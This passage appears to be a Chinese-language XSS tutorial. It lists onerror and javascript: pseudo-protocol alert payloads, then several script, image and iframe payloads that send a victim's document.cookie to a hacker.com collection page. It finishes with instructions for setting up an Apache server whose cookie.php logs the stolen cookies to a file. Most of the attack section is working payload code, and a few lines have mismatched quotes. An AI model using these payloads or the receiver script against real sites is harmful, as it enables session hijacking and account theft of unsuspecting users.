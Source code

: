 **巧用视频标签**

```html
<video src=x onerror=alert(1)>  //插入视频时,错误就触发弹框
```

**巧用音频标签**

```html
<audio src=x onerror=alert(1)>  //插入声音时,错误就触发弹框
```

JS**伪协议**

```php+HTML
<a href="javascript:alert('1')">2</a> //创建标签2，点击触发弹窗
<iframe src="javascript:alert(1)"></iframe>  //用伪协议进行弹框,火狐/IE/谷歌都支持
```

##### 4 收集用户cookie

打开新窗口并且采用本地cookie访问目标网页，打开新窗口并且采用本地cookie访问目标网页。

```html
<script>alert(document.cookie)</script>
<script>window.open("http://www.hacker.com/cookie.php?cookie="+document.cookie)</script>
<script>document.location="http://www.hacker.com/cookie.php?cookie="+document.cookie</script>
<script>new Image().src="http://www.hacker.com/cookie.php?cookie="+document.cookie;</script>
<img src="http://www.hacker.com/cookie.php?cookie='+document.cookie"></img>
<iframe src="http://www.hacker.com/cookie.php?cookie='+document.cookie"></iframe>
<script>new Image().src="http://www.hacker.com/cookie.php?cookie='+document.cookie";
img.width = 0;
img.height = 0;
</script>
```



**1>搭建web站点，用来接收用户cookie**

开启apache服务，进入/var/www/html文件，写一个用来接收cookie的网页，

cookie.php

```
vim /var/www/html/cookie.php
<?php
$aa = $_GET['cookie'];
$log = fopen("cookie.html","a") or exit("\n File not found!");
fwrite($log,$aa."\n");
fclose($log);
?>
```

创建接收cookie的页面文件

```
cd /var/www/html
touch cookie.html
sudo chown -R www-data:www-data /var/www/
```
